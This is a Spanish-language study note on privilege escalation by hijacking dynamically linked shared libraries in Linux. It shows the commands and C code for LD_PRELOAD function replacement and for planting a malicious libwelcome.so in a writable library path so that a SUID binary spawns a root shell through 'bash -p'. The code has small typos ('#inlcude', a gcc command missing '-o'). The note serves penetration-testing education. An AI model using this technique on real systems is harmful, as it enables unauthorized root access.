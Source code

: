 ----
- Tags: #escalada #teoria #practica 
---

# Secuestro de la biblioteca de objetos compartidos enlazados dinámicamente

### Las **bibliotecas compartidas** son archivos que contiene funciones y recursos utilizados por múltiples programas. Cuando un programa requiere una función de una biblioteca compartida, el sistema operativo busca la biblioteca y enlaza dinámica mente la función requerida durante la ejecución del programa. Sin embargo, si el sistema no encuentra la biblioteca en las rutas predeterminadas, puede buscarla en otros directorios. 

### Un atacante puede aprovechar esta situación creando una **biblioteca compartida maliciosa** con el mismo nombre que la biblioteca legítima y colocándola en un directorio donde el sistema la buscará. Cuando el programa intenta cargar la biblioteca, el sistema cargara la versión malicioso en lugar de la legítima, permitiendo al atacante ejecutar código malicioso con los privilegios del programa víctima. 

# Escalada 

### Para ver las funciones que se usan en un script de una biblioteca de objetos compartida podríamos hacer uso del comando **ldd** o de de un script llamado [uftrace](https://github.com/namhyung/uftrace) (Utilizado para analizar la ejecución de un programa escrito en C/C++) para leer las mismas...

```bash 
ldd {binary}

uftrace --force -a {binary}
```

### Una vez que tengamos las funciones que se usan, por ejemplo del script: 

```c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>

int main(int argc, char const *argv[]){
    srand(time(NULL));
    printf("%d\n", rand());
    return 0; 
}
```

```bash
uftrace --force -a {binary}
# 1838698392
# DURATION     TID     FUNCTION
#   5.840 us [110824] | time();
#   1.308 us [110824] | srand();
#   0.433 us [110824] | rand();
# 206.138 us [110824] | printf("%d\n") = 11;
```

### Vemos que se nos listan las funciones utilizadas en el script, por lo que ahora intentando realizar un secuestro de la biblioteca de objetos compartidos enlazados dinámicamente podríamos replicar la función *"rand"* que se usa en el script para realizar un código que nos interese. 

### Por lo que para poder realizar esta "suplantación" de función, las firmas deben coincidir (Las firmas son el conjunto de lo que la función **retorna**, como se **llama** y los **argumentos** que recibe)

### Es decir, a la hora de ejecutar el binario, por detrás el enlazador dinámico  por detrás carga las bibliotecas compartidas necesarias para que este programa funcione correctamente, ahora, este enlazador dinámico lo que hace es tomar como prioritario una **variable de entorno** llamada **LD_PRELOAD**, por lo que si esta variable lo igualamos a un binario de una biblioteca compartida que hayamos creado previamente, podríamos manipular el código para que se ejecute las instrucciones que quisiéramos.

```c
int rand(void){
	return 777; 
}
```

### Una vez creado el código malicioso (En este ejemplo alteramos el binario original para que en lugar de retornar un número random retorne siempre *777*) simplemente falta compilarlo como **biblioteca compartida** con el comando **gcc -shared -fPIC {file.c} -o {binary_name}** y exportar la variable de entorno. 

```bash
gcc -shared -fPIC malicious.c -o randomname 

LD_PRELOAD=randomname ./{binary}
```

---

### Otro ejemplo un poco más complejo es el siguiente. 

### Tenemos un binario en la ruta **/usr/bin/welcome** el cual no se puede ejecutar por un error y es SUID. El error que nos tira es *"libwelcome.so: cannot open shared object file: No such file or directory"*. 

### En este caso si jugamos con **ldd /usr/bin/welcome** nos devuelve **libwelcome.so => not found** y en este caso si intentamos explotar este secuestro de la biblioteca con con la variable *LD_PRELOAD* no va a funcionar.

### En estas ocasiones tenemos otras vías, la primera, es ver si tenemos permisos de escritura en la ruta **/etc/ld.so.conf.d** para crear una archivo de configuración para indicar a que ruta tiene que ir el binario para encontrar la biblioteca en cuestión. También podemos ver a que rutas se dirige a la hora de buscar dicho recurso en las configuraciones. 

### En el ejemplo dado, el binario nos arroja error dado que no encuentra la ruta, por lo que vemos que dentro de la ruta **/etc/ld.so.conf.d** existe un archivo de configuración llamado *custom.conf* el cual contiene una ruta inexistente como "*/home/dobliuw/lib*", pero en el home del user dobliuw no existe la carpeta *lib*, por lo que podríamos crear la carpeta y así mismo el script en c malicioso para **convertirlo** en una **biblioteca compartida**. 

```bash
cd /home/dobliuw 

mkdir lib 

cd !$ 

nano malicious.c 
```

#### malicious.c 
```c
#inlcude <stdio.h> 
#include <unistd.h>

int welcome(){
	setuid(0);
	setgid(0);
	system("bash -p");
	return 0;
}
```
#### PD: La función se llama welcome ya que podríamos ponerle un nombre típico como main y al compilar el binario como biblioteca compartida y ejecutar el binario inicial nos arrojaría un warning de que no se encuentra la función "welcome" de la librería, por lo que nos da a entender que la función que se usa es welcome. 

### Ahora solo quedaría convertir dicho script en un binario de **biblioteca compartida** con `gcc -shared -fPIC malicious.c libwelcome.so`. 

### Por lo que ahora al ejecutar el binario inicial (*/usr/bin/welcome*) al contener permisos SUID y habiendo *secuestrado la biblioteca de objetos compartidos enlazados dinámicamente* con un script el cual setea el uid en 0 para asegurarnos ser root nos lanzaría una consola privilegiada como root. 



